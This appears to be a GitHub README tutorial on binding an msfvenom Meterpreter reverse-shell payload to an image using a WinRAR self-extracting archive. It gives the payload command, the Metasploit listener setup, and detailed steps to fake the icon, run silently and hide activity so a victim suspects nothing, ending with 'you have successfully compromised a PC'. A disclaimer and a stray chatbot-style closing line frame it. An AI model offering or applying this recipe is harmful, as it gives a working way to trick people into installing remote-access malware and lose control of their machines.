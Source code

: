 # 🚀 Binding an msfvenom Payload with an Image for Penetration Testing  
**⚠️ For authorized penetration testing purposes only! Unauthorized use is illegal and unethical.**

---

## 🛠️ Prerequisites

- **Operating Systems**:  
  - 🐧 **Kali Linux**: For payload generation and listener setup.  
  - 🖥️ **Windows OS**: For testing the payload delivery.  

- **Tools**:  
  - `msfvenom`: To generate the payload.  
  - `msfconsole`: To capture the reverse shell.  
  - **WinRAR**: To bind files into a single executable.  
  - **Image Editor** (e.g., GIMP, online converter): For creating `.ico` files.  

- **Required Files**:  
  - 🧩 `payload.exe`: The malicious file created with msfvenom.  
  - 🖼️ `icon.ico`: A custom icon to disguise the final file.  
  - 📸 `original_image.jpg`: The image that appears legitimate.

---

## ✍️ Steps to Bind msfvenom Payload with an Image  

### Step 1: 🌐 Find Your IP Address and Choose a Port  
1. Open Kali Linux and find your IP address:  
   ```bash
   ip a
   ```  
   Locate the IP under the active network interface (e.g., `eth0` or `wlan0`).
   ![How to find IP address](https://github.com/user-attachments/assets/47e35044-d144-4555-bb6d-385b38387c41)


   **Why**:  
   The payload needs your IP to send the connection back.  

   **If not done**:  
   The payload cannot connect to your system.  

3. Choose a port:  
   Pick a port not already in use, like `4444` or `8080`. In my case I will use 192.168.163.74 as IP and 4444 as PORT

   **Why**:  
   Both the payload and listener must use the same port for communication.  

   **If not done**:  
   Connections won’t work if the port mismatches.

---

### Step 2: 🖼️ Create an `.ico` Icon File  

#### 1. **Convert to `.ico`**  
   - Using an **Online Converter**:✅ RECOMENDED
     - Upload the image to a service like [freeconvert.com](https://www.freeconvert.com/ico-converter).  
     - Download the `.ico` file.

   - Using **GIMP**:  
     - Open the image.  
     - Resize to 256x256.  
     - Go to `File > Export As` and save as `icon.ico`.  
     


   **Why**:  
   This step ensures the final executable looks like a harmless file.  

   **If not done**:  
   The file may display a generic app icon, raising suspicion.

---

### Step 3: 🛠️ Create the msfvenom Payload  

1. Run the following in Kali Linux:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f exe -o payload.exe
   ```  
   change <YOUR_IP> and <YOUR_PORT>
   
   ![Screenshot 2024-11-20 135204](https://github.com/user-attachments/assets/4e61ff1f-b1f6-4dee-bb2c-ba7bff6d6b38)

  

   **Why**:  
   This creates the payload (`payload.exe`) to connect back to your listener.  

   **If not done**:  
   The attack will fail without a working payload.  

---

### Step 4: 📦 Bind the Payload with the Image Using WinRAR  

#### 1. **Prepare Files**  
   Move `payload.exe`, `original_image.jpg`, and `icon.ico` to your Windows machine.  

#### 2. **Configure WinRAR**  

- **Create an SFX Archive**:  
  - Select all the 3 files & Right-click the files → Select `Add to Archive`.
  - In the settings, check **Create SFX archive**.
  - ![Screenshot 2024-11-20 140511](https://github.com/user-attachments/assets/212f8121-87c9-487b-8419-64f821ee7df8)


- **Advanced Settings**:  
  - Navigate to the **Advanced tab** → Click **SFX Options**.  
  - ![Screenshot 2024-11-20 141016](https://github.com/user-attachments/assets/d34cf986-89d3-44b4-b80c-e256cbc22c30)

#### SFX Options:  
1. **Setup Tab**  
   - Enter the following under "Run after extraction":  
     ```bash
     image.jpg
     payload.exe
     ```
   - ![Screenshot 2024-11-20 140947](https://github.com/user-attachments/assets/23908794-15ce-43db-8bac-c0505693831a)


   **Why**:  
   Ensures the image opens first while the payload executes in the background.  

   **If not done**:  
   Only the payload runs, which may look suspicious.  

2. **Text and Icon Tab**  
   - Select `icon.ico` under **Load SFX icon from the file**.
   - ![Screenshot 2024-11-20 140940](https://github.com/user-attachments/assets/9a1dd537-9929-435b-8746-74acda7ebd01)


   **Why**:  
   Gives the file a legitimate appearance.  

   **If not done**:  
   The file may look suspicious with a default icon.  

3. **Modes Tab**  
   - Select:  
     - **Unpack to temporary folder**  
     - **Silent mode: Hide all**
   - ![Screenshot 2024-11-20 140952](https://github.com/user-attachments/assets/298d724e-8067-47fc-a27d-535bdc466a66)


   **Why**:  
   Prevents showing extraction or activity windows.  

   **If not done**:  
   The user may notice unexpected behavior.  

---

### Step 5: 🛡️ Set Up the Listener in Metasploit  

1. Open Metasploit on Kali Linux:  
   ```bash
   msfconsole
   ```  

2. Configure the listener:  
   ```bash
   use exploit/multi/handler  
   set payload windows/meterpreter/reverse_tcp  
   set LHOST <YOUR_IP>  
   set LPORT <YOUR_PORT>  
   exploit  
   ```
   ![Screenshot 2024-11-20 143017](https://github.com/user-attachments/assets/9f3995b8-71f2-4400-941e-909bf849191f)

   **Why**:  
   This captures the reverse shell connection from the payload.  

   **If not done**:  
   Even if the target runs the file, you won’t receive any connection.  

---

### Step 6: 🧪 Test the Payload  

1. Transfer the final file (e.g., `vulnImage.jpg`) to the Windows machine. 
![Screenshot 2024-11-20 143156](https://github.com/user-attachments/assets/e4f86713-d0f6-4063-89c2-74fac25df087)
2. Open the file: 

   - The image displays, ensuring legitimacy.  
   - In the background, the payload runs and connects back to your listener. 

🎉 Congratulation: You have successfully compromised a PC
![Screenshot 2024-11-20 144427](https://github.com/user-attachments/assets/edade0da-4a2d-4fec-a48d-69bc816866ff)


   **Why**:  
   Verifies that the binding and payload work as expected.  

   **If not done**:  
   You won’t know if the attack was successful.  

---

## ⚠️ Legal Disclaimer  

This guide is for **educational purposes only**. Use it responsibly and only with explicit authorization. Unauthorized use is illegal and unethical.  

---

Would you like additional suggestions for layout or more example screenshots? 😊
